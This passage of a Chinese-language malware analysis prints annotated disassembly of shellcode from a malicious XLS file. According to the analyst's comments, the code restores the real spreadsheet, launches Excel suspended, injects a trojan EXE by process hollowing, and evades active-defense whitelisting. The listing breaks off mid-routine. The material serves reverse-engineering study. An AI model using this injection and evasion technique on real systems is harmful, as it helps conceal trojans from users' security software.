     047C0B57 8B7D FC mov edi, dword ptr [ebp-4]
    047C0B5A 8B75 10 mov esi, dword ptr [ebp+10]
    047C0B5D F3:A4 rep movs byte ptr es:[edi], byte ptr [esi] ;把正常文件内容拷贝过去，修复文件
&emsp;&emsp;修复完xls文件之后，就要做最后很关键的一部，以SUSPEND方式启动一个EXCEL进程，然后把刚才读出来的EXE内容写进新进程，再通过修改ImageBase指向EXE内容的地址，最后恢复新进程运行。这样一来，新启动的EXCEL进程实际执行的是木马EXE的进程。这样做的目的我分析有两个，直接释放exe并运行会被很多主动防御软件拦截，即使不拦截因为释放的exe不在白名单里，所做的敏感操作（例如修改注册表等）都会被主防拦截。而借EXCEL的壳执行exe则天然在主防白名单里，权限很高，木马不用考虑绕主防的问题。

    047C0832 55 push ebp
    047C0833 8BEC mov ebp, esp
    047C0835 81EC 70030000 sub esp, 370
    047C083B 57 push edi
    047C083C 68 0C030000 push 30C
    047C0841 8BF8 mov edi, eax
    047C0843 8D85 90FCFFFF lea eax, dword ptr [ebp-370]
    047C0849 50 push eax
    047C084A 6A 00 push 0
    047C084C 6A 03 push 3
    047C084E FFB6 64020000 push dword ptr [esi+264]
    047C0854 FF96 C0020000 call dword ptr [esi+2C0] ; GetModuleFileName获取EXCEL.EXE路径
    047C085A 83C4 14 add esp, 14
    047C085D 85C0 test eax, eax
    047C085F 0F84 D7000000 je 047C093C
    047C0865 6A 44 push 44
    047C0867 59 pop ecx
    047C0868 8BD1 mov edx, ecx
    047C086A 8D45 9C lea eax, dword ptr [ebp-64]
    047C086D 4A dec edx
    047C086E C600 00 mov byte ptr [eax], 0
    047C0871 90 nop
    047C0872 40 inc eax
    047C0873 85D2 test edx, edx
    047C0875 ^ 75 F6 jnz short 047C086D ; ZeroMemory
    047C0877 53 push ebx
    047C0878 8D45 9C lea eax, dword ptr [ebp-64]
    047C087B 50 push eax
    047C087C 33C0 xor eax, eax
    047C087E 50 push eax
    047C087F 50 push eax
    047C0880 6A 04 push 4 ;SUSPENDED
    047C0882 50 push eax
    047C0883 50 push eax
    047C0884 50 push eax
    047C0885 894D 9C mov dword ptr [ebp-64], ecx
    047C0888 8D8E 00FDFFFF lea ecx, dword ptr [esi-300]
    047C088E 51 push ecx
    047C088F 50 push eax
    047C0890 6A 0A push 0A
    047C0892 FFB6 68020000 push dword ptr [esi+268]
    047C0898 FF96 C0020000 call dword ptr [esi+2C0] ; CreateProcess以SUSPENDED方式启动EXCEL进程
    047C089E 83C4 30 add esp, 30
    047C08A1 85C0 test eax, eax
    047C08A3 0F84 93000000 je 047C093C
    047C08A9 57 push edi
    047C08AA C707 07000100 mov dword ptr [edi], 10007
    047C08B0 FF73 04 push dword ptr [ebx+4]
    047C08B3 6A 02 push 2
    047C08B5 FFB6 70020000 push dword ptr [esi+270]
    047C08BB FF96 C0020000 call dword ptr [esi+2C0] ; GetContextThread获取寄存器
    047C08C1 8D45 FC lea eax, dword ptr [ebp-4]
    047C08C4 50 push eax
    047C08C5 8B87 A4000000 mov eax, dword ptr [edi+A4];这个应该是EBX的值
    047C08CB 6A 04 push 4
    047C08CD FF75 08 push dword ptr [ebp+8]
    047C08D0 83C0 08 add eax, 8